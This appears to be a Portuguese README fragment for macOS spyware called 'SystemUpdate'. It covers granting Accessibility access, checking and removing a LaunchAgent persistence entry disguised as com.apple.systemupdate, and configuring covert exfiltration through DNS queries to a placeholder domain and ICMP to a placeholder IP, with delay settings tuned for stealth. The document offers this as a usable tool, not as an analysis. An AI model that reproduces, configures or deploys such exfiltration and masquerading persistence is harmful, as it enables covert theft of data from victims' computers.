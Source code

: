 #### **Permissões Necessárias**
1. **System Preferences** → **Security & Privacy**
2. **Privacy** → **Accessibility**
3. Adicionar **SystemUpdate** à lista
4. Marcar checkbox para habilitar

#### **Verificar Execução**
```bash
# Verificar processo
ps aux | grep SystemUpdate

# Verificar LaunchAgent
launchctl list | grep com.apple.systemupdate
```

#### **Parar Execução**
```bash
# Matar processo
pkill SystemUpdate

# Remover persistência
launchctl unload ~/Library/LaunchAgents/com.apple.systemupdate.plist
rm ~/Library/LaunchAgents/com.apple.systemupdate.plist
```

---

## 🔧 CONFIGURAÇÃO AVANÇADA

### **Personalizar Exfiltração**

#### **Alterar Domínio DNS**
```c
// Em network.h, linha ~45
snprintf(query, sizeof(query), "%s.SEUDOMINIO.com", fragment);
```

#### **Alterar Servidor ICMP**
```c
// Em network.h, linha ~58
addr.sin_addr.s_addr = inet_addr("SEU.IP.AQUI");
```

### **Ajustar Frequência**
```c
// Alterar delay entre exfiltrações
usleep(200000); // 200ms (padrão)
usleep(500000); // 500ms (mais stealth)
```

### **Modificar Buffer Size**
```c
// Em crypto.h, alterar tamanho do buffer
uint8_t data[4096]; // 4KB (padrão)
uint8_t data[8192]; // 8KB (mais dados)
```

---